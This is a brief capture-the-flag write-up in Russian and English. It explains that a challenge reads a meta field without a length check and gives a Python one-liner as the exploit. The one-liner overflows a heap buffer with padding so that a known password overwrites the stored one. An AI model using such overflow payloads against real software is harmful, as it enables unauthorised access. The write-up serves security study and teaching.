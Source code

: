 ﻿На видео: [1:15:39](https://vk.com/video-114366489_456239197?t=1h15m39s)

Передать верный логин-пароль, либо переписать на куче

There is no control of meta field reading length. Exploit:
```
>>> print('a'*256+'*'*12+'password')
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa************password
```

На самом деле, автор забыл сменить пароль на более сложный, что упростило работу. При intended решении задания с ним маловероятно справился бы кто-то из игравших.